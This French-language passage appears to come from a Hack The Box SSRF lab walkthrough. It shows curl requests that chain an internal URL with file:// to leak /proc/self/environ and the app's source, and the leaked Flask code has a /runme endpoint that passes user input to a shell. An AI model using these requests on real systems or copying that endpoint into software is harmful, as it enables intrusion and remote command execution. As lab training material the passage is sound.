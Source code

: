   cURL - Interagir avec la cible

```
dsgsec@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///proc/self/environ" -o -

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 584
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 16:52:20 GMT

<html><body><h1>Resource: file:///proc/self/environ</h1><a>HOSTNAME=18f236843662PYTHON_VERSION=3.8.12PWD=/appPORT=80PYTHON_SETUPTOOLS_VERSION=57.5.0HOME=/rootLANG=C.UTF-8GPG_KEY=E3FF2839C048B25C084DEBE9B26995E310250568SHLVL=0PYTHON_PIP_VERSION=21.2.4PYTHON_GET_PIP_SHA256=01249aa3e58ffb3e1686b7141b4e9aac4d398ef4ac3012ed9dff8dd9f685ffe0PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/d781367b97acf0ece7e9e304bf281e99b618bf10/public/get-pip.pyPATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin_=/usr/local/bin/python3</a></body></html>

```

Nous savons maintenant que le chemin actuel est `/app`, et nous avons une liste de fichiers intéressants. Divulguons le `internal_local.py`fichier comme suit.

#### Récupération d'un fichier local via l'application cible - Schéma de fichier

  Récupération d'un fichier local via l'application cible - Schéma de fichier

```
dsgsec@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///app/internal_local.py"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 771
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 20:40:28 GMT

<html><body><h1>Resource: file:///app/internal_local.py</h1><a>import os
from flask import *
import urllib
import subprocess

basedir = os.path.abspath(os.path.dirname(__file__))

app = Flask(__name__)

def run_command(command):
    p = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    stdout = p.stdout.read()
    stderr = p.stderr.read()
    result = stdout.decode() + " " + stderr.decode()
    return result

@app.route("/")
def index():
    return run_command("ls -lha")

@app.route("/runme")
def runmewithargs():
    command = request.args.get("x")
    if command == "":
        return "Use /runme?x=<CMD>"
    return run_command(command)

```
